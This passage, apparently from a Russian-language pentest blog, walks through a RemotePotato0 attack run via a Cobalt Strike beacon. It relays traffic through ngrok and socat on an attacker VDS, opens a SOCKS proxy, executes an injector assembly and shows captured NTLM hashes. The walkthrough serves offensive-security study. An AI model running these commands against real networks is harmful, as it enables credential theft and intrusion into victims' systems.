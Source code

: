 ngrok + socat на VDS
{:.quote}

Теперь я могу ловить трафик на 136/TCP на машине аттакера, прилетевший с ngrok, и перенаправлять его обратно на жертву. В этом мне поможет SOCKS-прокся, развернутая кобой.

Эмпирическим путем было установлено, что проксю лучше поднимать в отдельном биконе, т. к. изначальная сессия начинает тупить, когда мы делаем `execute-assembly` с нашим инжектором, который мы, кстати, так и не протестили – исправим это (теперь надо только перегенерить шеллкод с нужным IP VDS-ки в аргументе `-x`).

```
beacon(1)> socks 1080
~$ sudo proxychains4 -q socat -v TCP-LISTEN:136,fork,reuseaddr TCP:<VICTIM_INTERNAL_IP>:9998
beacon(2)> execute-assembly RemotePotato0Inject.exe
```

[![А вот и хешики!](/assets/images/remote-potato-0/cs-remotepotato0-hashes.png)](/assets/images/remote-potato-0/cs-remotepotato0-hashes.png)
{:.center-image}

А вот и хешики!
{:.quote}

[![Тем временем на VDS](/assets/images/remote-potato-0/vds-remotepotato0-hashes.png)](/assets/images/remote-potato-0/vds-remotepotato0-hashes.png)
{:.center-image}
